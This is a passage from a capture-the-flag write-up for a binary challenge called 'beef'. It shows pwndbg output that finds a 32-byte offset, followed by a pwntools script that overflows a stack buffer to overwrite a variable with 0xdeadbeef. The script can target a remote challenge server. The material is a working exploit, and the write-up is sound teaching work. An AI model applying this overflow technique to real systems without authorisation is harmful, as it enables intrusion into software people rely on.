 ```bash
*EIP  0x8049269 (vuln+78) ◂— cmp dword ptr [ebp - 0xc], 0xdeadbeef
...
pwndbg> x/x $ebp - 0xC
0xffffcf6c:     0x61616169 

└─$ unhex 61616169 # Hex -> Ascii
aaai
└─$ cyclic -l iaaa # Reversed Because LSB
32 # Offset
```

### Solution

```py
#!/usr/bin/env python3
from pwn import *

exe = './beef'
elf = context.binary = ELF(exe)
context.log_level = 'INFO' # 'DEBUG'


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("139.144.184.150", 31337)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

offset = 32
value = 0xDEADBEEF
payload = flat(
    b"\x90" * offset,
    pack(value)
)
io.recvuntil(b"organization") # Recieve Strings Till 'organization'
io.recvline() # Code: ...
io.sendline(payload) # Send Payload
info(io.recvall().decode().strip()) # Profit
io.close()
```
